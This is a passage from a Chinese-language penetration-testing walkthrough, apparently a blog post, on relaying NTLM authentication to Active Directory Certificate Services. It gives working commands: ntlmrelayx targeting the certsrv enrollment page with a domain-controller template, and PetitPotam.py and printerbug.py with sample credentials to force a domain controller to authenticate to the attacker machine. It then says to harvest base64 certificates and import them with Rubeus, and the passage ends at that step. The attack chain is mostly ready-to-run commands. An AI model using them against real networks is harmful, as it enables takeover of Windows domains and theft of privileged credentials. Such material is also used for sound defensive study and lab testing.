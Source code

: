 certutil -config - -ping

  

![]()

  

ntlmrelayx监听，这里需要新的impacket：https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-
adcs-attack

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  

python3 ntlmrelayx.py -t http://10.211.55.4/certsrv/certfnsh.asp -smb2support
--adcs --template 'domain controller'

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182618.png)

  

使用脚本触发辅助域控回连我们的攻击机器，这里可以使用最新的Petitpotam.py，也可以使用printerbug.py
。详情：[利用PetitPotam进行NTLM
Relay攻击](http://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247489212&idx=1&sn=798d206b1a90e104443bc4d75a001a2c&chksm=eaad9681ddda1f977e555e1f48a070d0af0b5d2e8d1389c5c0a7b2cc0cc2356dfa2bf66927b4&scene=21#wechat_redirect)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  

python3 Petitpotam.py -d xie.com -u hack -p P@ss1234 10.211.55.2 10.211.55.5

  

#或者使用printerbug.py也可以触发

python3 printerbug.py xie/hack@10.211.55.5 10.211.55.2

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182620.png)

  

或

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182622.png)

  

获取到base64编码的证书数据，会打印出很多个base64编码的证书，我们随便选择一个即可。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182623.png)

  

然后使用Rubeus导入证书数据

  
